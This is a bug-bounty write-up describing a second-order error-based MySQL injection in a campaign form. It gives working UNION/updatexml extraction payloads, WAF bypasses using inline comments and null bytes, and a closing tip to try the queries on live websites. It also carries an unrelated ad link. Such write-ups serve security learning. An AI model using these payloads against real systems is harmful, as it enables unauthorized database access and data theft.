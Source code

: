 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```

[link](https://www.profitablegatetocontent.com/ewuaexupcb?key=19ac2407b31af75cee7820d84085bfd8)
Hello everyone.   
So this issue was found on a private program. There was a feature to create campaigns for different purpose. It required various form fields, like campaign_name, duration of the campaign, mode of the campaign(private/public), etc. On submitting the form, a POST request was sent containing the form fields. This will inturn generate a link for the created campaign , and using this link the user could access it. The POST data contain a field `campaign_name` , and that was the injection point.  

I was originally looking for second order xss on this feature, as the value of `campaign_name` field was getting reflected in the source code of the generated campaign (accessible using the generated link). So I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I added another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query used to retrieve the value of `campaign_name`:  
  ```select name from campaign where name like "campaignx%"```  

So my injection was in `campaignx`. By looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also in order to make sure that my injected query doesnot break the original query, I need to discard everything that is after the injection point (the remaining `%"` of the query). For that I need to use comments. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :  
  ```select name from campaign where name like "campaignx"injected_data;#%"```  
The semicolon is used to end the statements that are being used in the injection.  

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypasses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remember is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So the UNION query be like: 
  ```select name from campaign where name like "campaignx"/**/UNION/**/select/**/1,2,3;#%"```  

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :  
  ```select name from campaign where name like "campaignx"/**/ORDER/**/BY/**/1;#```  
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.  

So now we could finally use the union statement. So I ran the follwoing query:  
  ```select name from campaign where name like "entered campaign"/**/UNION/**/select/**/1,2,3,4;#```  
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But that was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.  

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml() tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :  
  ```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```  
This returned only the last 3 chars of the version.   
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```  
And this gave me the full version, as the size of the string was below 32 bytes.  

So now I can use following query to retrieve other information.   
Database names can be retrieved by : `select schema_name from information_schema.schemata`  
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`  
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`  

But the problem occured, when I tried to implement it.  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```  
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.  
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password, as they are generally greater than 32 bytes, considering that they are encrypted). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.  

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR()
Query would be :   
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
and so on.  
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.  
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.  
So searching for this , I again found a solution on internet. This solution looks like as follows :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```  
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.  
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.  

Finally I rerieved all database information. 

**Note: Try the query in your local mysql database, then try in the live website.**  

Resources used :  
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi  
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html  
https://websec.ca/kb/sql_injection  
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html  
https://www.exploit-db.com/papers/13650  
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
https://www.programmersought.com/article/29625825274/  
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html  
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d  
https://www.sqlinjection.net/time-based/  
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec  
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf  
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md  
https://book.hacktricks.xyz/pentesting-web/sql-injection  
https://www.programmersought.com/article/48964149849/  
